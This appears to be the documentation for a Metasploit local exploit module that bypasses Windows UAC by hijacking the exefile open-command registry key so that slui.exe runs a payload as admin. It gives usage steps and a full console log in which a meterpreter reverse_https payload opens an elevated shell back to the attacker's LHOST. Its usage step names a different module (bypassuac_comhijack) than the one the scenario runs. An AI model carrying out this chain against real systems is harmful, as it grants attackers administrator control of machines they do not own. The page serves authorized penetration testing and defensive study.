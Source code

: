 ## Intro

  This module will bypass UAC on Windows 8-10 by hijacking a special key in the Registry under
  the Current User hive, and inserting a custom command that will get invoked when
  any binary (.exe) application is launched. But slui.exe is an auto-elevated binary that is
  vulnerable to file handler hijacking. When we run slui.exe with changed Registry key
  (HKCU:\Software\Classes\exefile\shell\open\command), it will run our custom command as Admin
  instead of slui.exe.

  The module modifies the registry in order for this exploit to work. The modification is
  reverted once the exploitation attempt has finished.
	
  The module does not require the architecture of the payload to match the OS. If
  specifying EXE::Custom your DLL should call ExitProcess() after starting the
  payload in a different process.

## Usage
	
  1. First we need to obtain a session on the target system.
  2. Load module: `use exploit/windows/local/bypassuac_comhijack`
  3. Set the `payload`: `set payload windows/x64/meterpreter/reverse_tcp`
  4. Configure the `payload`.

## Scenario

```
msf exploit(multi/handler) > 
[*] https://192.168.0.30:443 handling request from 192.168.0.33; (UUID: d4iywkip) Encoded stage with x86/shikata_ga_nai
[*] https://192.168.0.30:443 handling request from 192.168.0.33; (UUID: d4iywkip) Staging x86 payload (180854 bytes) ...
[*] Meterpreter session 1 opened (192.168.0.30:443 -> 192.168.0.33:49875) at 2018-04-07 18:33:11 +0200

msf exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                 Connection
  --  ----  ----                     -----------                 ----------
  1         meterpreter x86/windows  WIN10-01\user01 @ WIN10-01  192.168.0.30:443 -> 192.168.0.33:49875 (192.168.0.33)

msf exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > sysinfo 
Computer        : WIN10-01
OS              : Windows 10 (Build 16299).
Architecture    : x64
System Language : ru_RU
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid 
Server username: WIN10-01\user01
meterpreter > getprivs 

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > background 
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/bypassuac_sluihijack
msf exploit(windows/local/bypassuac_sluihijack) > show targets 

Exploit targets:

   Id  Name
   --  ----
   0   Windows x86
   1   Windows x64


msf exploit(windows/local/bypassuac_sluihijack) > set target 1
target => 1
msf exploit(windows/local/bypassuac_sluihijack) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf exploit(windows/local/bypassuac_sluihijack) > set session 1
session => 1
msf exploit(windows/local/bypassuac_sluihijack) > set LHOST 192.168.0.30
LHOST => 192.168.0.30
msf exploit(windows/local/bypassuac_sluihijack) > exploit 

[*] Started HTTPS reverse handler on https://192.168.0.30:8443
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\Sysnative\cmd.exe /c powershell Start-Process C:\Windows\System32\slui.exe -Verb runas
[*] https://192.168.0.30:8443 handling request from 192.168.0.33; (UUID: znqja6ua) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 2 opened (192.168.0.30:8443 -> 192.168.0.33:49881) at 2018-04-07 18:34:39 +0200
[*] Cleaining up registry keys ...

meterpreter >





```
